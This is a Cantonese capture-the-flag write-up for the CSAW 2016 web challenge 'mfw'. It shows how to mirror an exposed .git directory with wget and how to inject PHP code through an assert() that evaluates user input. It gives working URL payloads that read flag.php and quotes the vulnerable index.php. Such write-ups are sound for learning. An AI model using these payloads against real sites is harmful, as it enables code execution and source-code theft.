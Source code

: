 # CSAW CTF 2016 Quals: mfw (Web, 125)

說明：
> Hey, I made my first website today. It's pretty cool and web7.9. http://web.chal.csaw.io:8000/

## Exploration
入到去求其撳個 About 去到呢頁:
```
http://web.chal.csaw.io:8000/?page=about
```
然後佢話佢用 Git, PHP 同 Bootstrap 整個網喎

見到 PHP 同埋 page=乜乜乜 就條件反射試 PHP filter:
```
http://web.chal.csaw.io:8000/?page=php://filter/read=convert.base64-encode/resource=about
```
結果冇料到
之後求其試下個單引號睇下係唔係D 低能 SQLi
```
http://web.chal.csaw.io:8000/?page='
```
結果竟然係 500 Server Error

## View Source
佢之前咪話自己用 Git, 信住先啦. 咁梗係試下 /.git/ :
```
http://web.chal.csaw.io:8000/.git/
```
有料到喎. 之後可以撳入去 objects 到將D files gzip decompress 返
唔鍾意人手玩既可以直接一野隊落黎再起返D missing files (即係 source code):
```
wget --mirror -I .git http://web.chal.csaw.io:8000/.git/
git checkout -- .
```
嗱 template 入面有個 flag.php, 不過一睇就知唔方好野:
```
<?php
// TODO
//$FLAG = '';
?>
```
混吉。
睇返 index.php 啦, 個 include file path 係
```
$file = "templates/" . $page . ".php";
```
所以你招 filter 冇用啦. 然後佢下面有兩句奇怪 assert statements check 你個 input 有冇D 蠱惑野
```
// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");
```
但係好不幸地 PHP 會將 assert statement 入面既 string evaluate, 搞到好似 run 緊 eval 咁
所以點解頭先打個單引號會出 500, 因為 run 爛 code

## Exploitation
依家首先要砌到個 input 令到果兩句 assert statements 唔爛之餘又可以攝D code 入去 run 下:
```
http://web.chal.csaw.io:8000/?page=~(^o^)~

strpos('templates/~(^o^)~.php', '..') === false
file_exists('templates/~(^o^)~.php')
```
最簡單就用 string concatenation:
```
http://web.chal.csaw.io:8000/?page=d'.strval(print(6*9)).'b

strpos('templates/d'.strval(print(6*9)).'b.php', '..') === false
file_exists('templates/d'.strval(print(6*9)).'b.php')
```
咁樣段code 就冇爛, 重會 print 兩次 54
之後用個 highlight_file 讀 flag.php 個 source code:
```
http://web.chal.csaw.io:8000/?page=d'.strval(highlight_file('templates/flag.php')).'b
```
就會見到個 Flag 出現兩次
```
<?php $FLAG="flag{3vald_@ss3rt_1s_best_a$$ert}"; ?>
```
